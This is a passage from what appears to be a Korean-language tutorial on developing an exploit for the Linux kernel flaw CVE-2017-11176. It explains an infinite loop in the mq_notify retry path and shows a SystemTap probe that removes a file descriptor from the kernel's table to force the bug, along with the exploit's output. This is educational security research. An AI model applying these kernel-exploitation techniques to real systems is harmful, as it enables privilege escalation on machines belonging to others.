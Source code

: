 다시 실행을 해보면...짜잔! 익스플로잇이 이젠 커널 안에서 무한 루프에 갇혔다. 이유는 다음과 같다:

* *netlink\_attachskb()*에 진입하고 retry path를 사용한다 (우리가 강제했다)
* 스레드가 schedule되지 않는다 (우회했다)
* *netlink\_attachskb()* 가 1을 반환한다
* *mq\_notify()* 로 돌아가서 "goto retry" 구문이 실행된다
* *fget()* 이 null이 아닌 값을 반환한다
* *netlink\_getsockbyflip()*도 null이 아닌 값을 반환한다
* 다시 *netlink\_attachskb()* 에 진입한다
* ...무한 반복...

우릴 block한 *schedule\_timeout()* 으로의 호출은 잘 우회했지만, 그 과정에서 무한 루프가 생겼다.

### Stopping the infinite loop

해킹을 계속 진행하여 *fget()* 이 두 번째 호출에서 실패하게 해보자! FDT에서 file descriptor를 직접적으로 제거하는 것이 한 방법이다(= NULL로 만든다):

```c
    %{
    #include <linux/fdtable.h>
    %}

    function remove_fd3_from_fdt:long (arg_unused:long)
    %{
        _stp_printf("!!>>> REMOVING FD=3 FROM FDT <<<!!\n");
        struct files_struct *files = current->files;
        struct fdtable *fdt = files_fdtable(files);
        fdt->fd[3] = NULL;
    %}

    probe kernel.function ("netlink_attachskb")
    {
      if (execname() == "exploit")
      {
        printf("(%d-%d) [netlink] ==>> netlink_attachskb (%s)\n", pid(), tid(), $$parms)

        dump_netlink_sock($sk); // it also marks the socket as DEAD and CONGESTED
        remove_fd3_from_fdt(0);
      }
    }
```

```plaintext
-={ CVE-2017-11176 Exploit }=-
netlink socket created = 3
mq_notify: Bad file descriptor
exploit failed!

